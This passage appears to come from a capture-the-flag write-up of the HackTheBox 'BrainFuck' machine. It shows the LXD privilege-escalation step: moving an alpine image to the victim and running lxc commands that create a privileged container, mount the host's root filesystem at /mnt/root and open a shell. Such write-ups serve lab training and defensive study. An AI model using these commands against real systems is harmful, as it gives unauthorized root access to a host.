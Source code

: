 Running above commands in our attack machine, rename the obtained file to `alpine.tar.gz` and transfer it to the victim machine.

![23-lxd](/assets/img/HTB/BrainFuck/23-lxd.png)

Use this commands on the victim machine to create a mount on `/mnt/root`

```console
$ lxc image import ./alpine.tar.gz --alias alpine
$ lxc image list
$ lxc init alpine privesc -c security.privileged=true
$ lxc list
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
```
![24-lxd](/assets/img/HTB/BrainFuck/24-lxd.png)
